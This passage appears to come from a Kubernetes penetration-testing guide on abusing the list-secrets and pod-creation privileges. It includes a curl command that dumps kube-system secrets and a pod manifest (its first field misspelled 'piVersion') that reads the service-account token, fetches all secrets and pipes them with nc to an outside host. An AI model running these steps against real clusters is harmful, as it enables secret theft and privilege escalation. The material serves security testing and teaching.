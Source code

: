 ### **Listing Secrets**

The **listing secrets privilege** is a strong capability to have in the cluster. A user with the permission to list secrets can **potentially view all the secrets in the cluster – including the admin keys**. The secret key is a JWT token encoded in base64.

![](https://www.cyberark.com/wp-content/uploads/2018/12/listing\_secrets\_role.png)

An attacker that gains **access to **_**list secrets**_** ** in the cluster can use the following _curl_ commands to get all secrets in “kube-system” namespace:

```bash
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

![](https://www.cyberark.com/wp-content/uploads/2019/08/Kube-Pentest-Fig-2.png)

### Pod Creation - Steal Token

An attacker with permission to create a pod in the “kube-system” namespace can create cryptomining containers for example. Moreover, if there is a **service account with privileged permissions, by running a pod with that service the permissions can be abused to escalate privileges**.

![](<../../.gitbook/assets/image (463).png>)

Here we have a default privileged account named _bootstrap-signer_ with permissions to list all secrets.

![](https://www.cyberark.com/wp-content/uploads/2018/12/rolebinding\_with\_cluster\_admin\_clusterrole-1024x545.png)

The attacker can create a malicious pod that will use the privileged service. Then, abusing the service token, it will ex-filtrate the secrets:

![](https://www.cyberark.com/wp-content/uploads/2018/12/pods\_yaml\_with\_autoamountServiceAccountToken-1024x345.png)

```yaml
piVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
```